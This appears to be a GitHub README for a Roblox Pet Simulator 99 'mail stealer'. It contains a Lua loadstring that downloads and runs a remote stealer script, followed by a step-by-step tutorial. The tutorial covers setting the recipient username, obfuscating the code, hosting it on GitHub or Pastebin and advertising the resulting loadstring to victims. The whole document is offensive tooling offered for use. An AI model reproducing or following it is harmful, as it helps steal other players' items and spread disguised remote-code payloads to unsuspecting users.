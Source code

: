 # Script With Tutorial

```lua
Username = "Your User Here"
AntiLeave = true

loadstring(game:HttpGet("https://raw.githubusercontent.com/KiuuP/PS99_Mailstealer/main/MailStealer.lua"))()
```

# Tutorial

1: Edit mailstealer with your Username.

2: Save your stealer and Obfuscate it using MoonSec bot OR https://luaobfuscator.com/.

3: After u obfuscated save it and register/login on https://github.com/ to upload your script.

4: Create a repositorie and upload your obfuscated script (on github or pastebin).
![image](https://github.com/KiuuP/PS99_Mailstealer/assets/158788963/71376a04-6684-4dd4-9a47-bdfcf83dd384)

5.1:Click This (Github)
![image](https://github.com/KiuuP/PS99_Mailstealer/assets/158788963/0f845270-1eac-4297-b38b-183e3d57ea72)
5.2:Click This (Pastebin)
![image](https://github.com/KiuuP/PS99_Mailstealer/assets/158788963/90c49e9a-0167-4e35-b611-0cf826fc518d)

6:And Click The Raw

![image](https://github.com/KiuuP/PS99_Mailstealer/assets/158788963/746039ee-1b0d-47b3-8f38-1b4e6adf8483)

7: Copy link

8: Put your link in this script
```lua
loadstring(game:HttpGet("YOUR LINK HERE", true))()
```

9: After u finished u got your loadstring script with mailstealer
Now all u have to do is adversite this script as u can
```
loadstring(game:HttpGet("Your Link Here", true))()
```
